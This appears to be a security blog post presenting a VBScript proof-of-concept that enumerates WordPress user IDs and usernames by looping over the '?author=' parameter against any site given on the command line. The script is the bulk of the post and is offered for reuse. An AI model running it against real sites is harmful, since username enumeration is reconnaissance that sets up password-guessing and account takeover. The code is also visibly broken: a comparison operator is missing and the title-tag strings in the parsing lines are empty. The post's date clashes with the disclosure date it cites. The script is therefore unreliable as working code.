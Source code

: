 ```yaml
---
title: "WordPress UserId & Username Enumeration Exploit/PoC Script"
date: 2011-05-11
categories:
- security research
- appsec
- wordpress
tags:
- username enumeration
- reconnaissance

thumbnailImagePosition: left
thumbnailImage: /img/wordpress-userid-&-username-enumeration-exploit-poc-script/1.png
---
```


Simple VBScript using XMLHTTP to fetch usernames from a WordPress installation using the `?author=` redirect feature.

<!--more-->


## Background


On 26th May 2011, a relatively easy to detect and exploit vulnerability was found with WordPress. The issue being with WordPress disclosing usernames based on a simple URL parameter and the consequent page redirect/HTTP status. Although WordPress has implemented usernames in the title bar as a feature, this can be abused easily by recursively supplying a `/?author=number` to the main page to enumerate usernames. The full disclosure posting can be found at http://seclists.org/fulldisclosure/2011/May/493

Even though there are a lot of scripts/exploits/PoC already popping up all over the Internet to abuse this, this post will show how easy it is to automate the enumeration using Ajax/XMLHTTP via VBScript.

**PoC using VBScript**

```
'Author: karniv0re@null.co.in
'User enumeration script for WordPress v2.6, 3.1, 3.1.1, 3.1.3
'This script allows an attacker to enumerate wordpress users by 
'querying the value of the parameter 'author' using xmlHTTP.

Dim url, sQuery, args, i, max

if wscript.arguments.count < 1 then
    wscript.echo "WPEnum – WordPress User Enumeration Script"
    wscript.echo "Author: karniv0re@null.co.in"
    wscript.echo "Insufficient Parameters."
    wscript.echo
    wscript.echo "cscript WPEnum.vbs []"
    wscript.echo ": A WordPress based website in the form of http://example.com/"
    wscript.echo ":[Optional] Maximum number of users. Default 20."
    wscript.echo "Example: cscript WPEnum.vbs http://example.com/ 10"
    wscript.echo
    wscript.quit
End if

set args = wscript.Arguments

wscript.echo "WPEnum – WordPress User Enumeration Script"
wscript.echo "Author: karniv0re@null.co.in"
wscript.echo
wscript.echo "Enumerating ..."
wscript.echo

i=0
max=20
url = args(0)
if right(url,1) "/" then
    url = url & "/"
End if

if wscript.arguments.count = 2 AND IsNumeric(args(1)) then
    max=args(1)
End if

Set xmlHTTP = Nothing
set xmlHTTP = CreateObject("Microsoft.XmlHttp")

For i=1 to max
    sQuery = args(0) & "?author=" & i
    xmlHTTP.open "GET", sQuery, false
    xmlHTTP.send ""

    wscript.sleep 70

    do while not xmlHTTP.readyState=4
    Loop

    if xmlHTTP.status = 404 then
        wscript.echo
        i=i-1
        wscript.echo i & " users enumerated."
        wscript.echo "Done!"
        Set xmlHTTP = Nothing
        wscript. quit
    End if

    wscript.echo "Userid:" & i

    k = Instr(Lcase(xmlHTTP.responseText),"")
    j = Instr(Lcase(xmlHTTP.responseText),"")
    username = Mid(xmlHTTP.responseText, k+7, j-k-7)
    wscript.echo username
    wscript.echo
Next

wscript.echo i & " users enumerated."
wscript.echo "Done!"

Set xmlHTTP = Nothing

'End of program
```

---